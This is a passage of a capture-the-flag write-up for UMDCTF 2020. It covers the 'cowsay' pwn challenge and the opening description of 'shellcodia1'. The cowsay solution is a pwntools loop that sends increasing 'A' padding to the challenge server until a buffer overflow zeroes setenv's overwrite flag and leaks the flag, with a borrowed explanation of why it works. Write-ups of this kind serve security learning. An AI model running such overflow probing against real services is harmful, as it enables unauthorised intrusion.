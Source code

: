 
### Attachment

[cowsay.c](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/UMDCTF2020/pwn/cowsay/main.c)

### Analysis

I don't understand what this challenge means... so I try to brute force...

### Solution

```python
for i in range(20):
    p = remote('192.241.138.174',9998)
    offset = 64+i
    payload = 'A'*offset
    print "[+] ",i
    p.sendline(payload)
    print p.recvall()
    p.close()
```

Success while offset is 75 or 76 ... I don't actually know why...

![](http://image.taqini.space/img/20200419175050.png)

### More

> Also for the cowsay one essentially you're overwriting the `overwrite` variable in the call to setenv with a 0 so the value of $MSG isn't changed `int setenv(const char *name, const char *value, int overwrite);`
>
> -- by seamus#4468 @discord

We can look up manual of `setenv`  to learn more:

> The setenv() function adds the variable name to the environment with the value value, if name does not already exist. If name does exist in the environment, then its value is changed to value if overwrite is nonzero; **if overwrite is zero**, then **the value of name is not changed** (and setenv() returns a success status). This function makes copies of the strings pointed to by name and value (by contrast with putenv(3)).

So flag is in `$MSG` and cow will say it if we don't overwrite it :D

> Thanks seamus#4468

## shellcodia1 (300pt)

### Description

> Welcome to shellcodia, here is an opportunity to write some custom shellcode to retrieve the flag! Simply connect, submit your shellcode in binary form, and if you've  completed the challenge then a flag will return. This first challenge is to return the value 7. Now, a few things to remember, these are x64  machines so don't think you can sneak by with 32bit shellcode.  Additionally, the environment assumes nothing about the shellcode you  give it. It's highly unlikely that if you break the environment, even if you accomplished the goal, you will get the flag. 
>
> Submit your shellcode to: `157.245.88.100:7778` Good luck! 
>
> Author: `quantumite (BlueStar)` 
>
> (Note: flag is in `UMDCTF{}` format)
